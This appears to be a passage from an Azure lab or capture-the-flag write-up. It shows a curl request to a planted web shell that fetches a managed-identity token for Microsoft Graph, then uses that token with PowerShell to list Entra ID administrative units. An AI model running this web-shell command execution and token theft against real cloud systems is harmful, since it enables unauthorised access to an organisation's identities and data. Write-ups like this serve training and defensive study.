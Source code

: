 ```
Name              : megabigtech-hr-portal
ResourceGroupName : mbt-rg-12
ResourceType      : Microsoft.Web/serverFarms
Location          : eastus2
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-12/providers/Microsoft.Web/serverFarms/megabigtech-hr-portal
Tags              : 

Name              : megabigtech-hr-portal
ResourceGroupName : mbt-rg-12
ResourceType      : Microsoft.Web/sites
Location          : eastus2
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-12/providers/Microsoft.Web/sites/megabigtech-hr-portal
Tags              : 

```

Nothing interesting. Let's turn our attention instead to the Entra ID and the Graph API. Request an access token for MS Graph
```
└─$ curl --silent 'https://megabigtech-hr-portal.azurewebsites.net/portal/shell.php?cmd=curl%20-s%20-H%20%22X-Identity-Header%3A%20%24IDENTITY_HEADER%22%20%22%24IDENTITY_ENDPOINT%3Fapi-version%3D2019-08-01%26resource%3Dhttps%3A%2F%2Fgraph.microsoft.com%2F%22'
{"access_token":"<REDACTED>","expires_on":"1758531262","resource":"https://graph.microsoft.com/","token_type":"Bearer","client_id":"6beb3ab0-6e28-4a92-8e5a-ce0d5abf3a8c"}
```
So let's query administrative units that might have been configured. Administrative units enable the limitation of role permissions to specific segments of the organization that you define
```
$headers = @{
    Authorization = "Bearer $token"
    "Content-Type" = "application/json"
}

$graphUrl = "https://graph.microsoft.com/v1.0/directory/administrativeUnits"

try {
    $adminUnits = Invoke-RestMethod -Uri $graphUrl -Headers $headers -Method Get
    # Output the administrative units
    $adminUnits.value | ForEach-Object {
        Write-Output "ID: $($_.id) - Display Name: $($_.displayName)"
    }
} catch {
    Write-Error "Error accessing Microsoft Graph: $_"
}
```
The same can be done with Microsoft Graph PowerShell with token we acquired
```
└─PS> Connect-MgGraph -AccessToken ($token | ConvertTo-SecureString -AsPlainText -Force)
Welcome to Microsoft Graph!

Connected via userprovidedaccesstoken access using 6beb3ab0-6e28-4a92-8e5a-ce0d5abf3a8c
Readme: https://aka.ms/graph/sdk/powershell
SDK Docs: https://aka.ms/graph/sdk/powershell/docs
API Docs: https://aka.ms/graph/docs

NOTE: You can use the -NoWelcome parameter to suppress this message.
```
```
└─PS> Get-MgDirectoryAdministrativeUnit | fl
DeletedDateTime               : 
Description                   : Scope to manage the authentication settings for the users belonging to the project.
DisplayName                   : Megabigtech-UNIT1
```